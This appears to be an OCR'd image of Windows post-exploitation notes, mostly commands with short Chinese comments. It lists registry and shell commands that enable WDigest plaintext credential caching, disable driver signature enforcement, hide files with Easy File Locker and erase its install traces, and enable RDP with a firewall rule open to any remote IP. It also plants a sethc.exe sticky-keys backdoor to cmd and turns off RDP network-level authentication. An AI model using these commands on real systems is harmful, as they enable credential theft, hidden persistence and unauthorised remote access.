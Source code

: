 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f


！！ 禁止强制签名，以管理员的身份运行cmd 执行以下命令  
 
 Win2012 Can: 

bcdedit.exe /set nointegritychecks on  

\\Easy File Locker  （！！！注意：只需要赋予Access权限，其他都不需要，切记切记）


删除1.   REG delete "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\Easy file Locker" /f

删除2：安装目录

删除3： C:\Users\master\AppData\Roaming\Microsoft\Windows\Start Menu\Programs   （快捷方式）


C:/Users/Public/Documents/EFL/rule.ini  隐藏的定义在此
Easy File Locker添加需要隐藏的文件，只赋予access权限，即可实现文件的隐藏。


cmd.exe /c reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f 


cmd.exe /c wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1


cmd.exe /c netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any


1.reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f   \\配置端口为3389


2.wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1  （open terminal, 0 close)


3. netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any


4.netsh advfirewall firewall show rule name="RemoteDesktop_Allow"  


5. netsh advfirewall firewall del rule name="RemoteDesktop_Allow"


reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "\"c:\windows\system32\cmd.exe\" /z" /f

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f




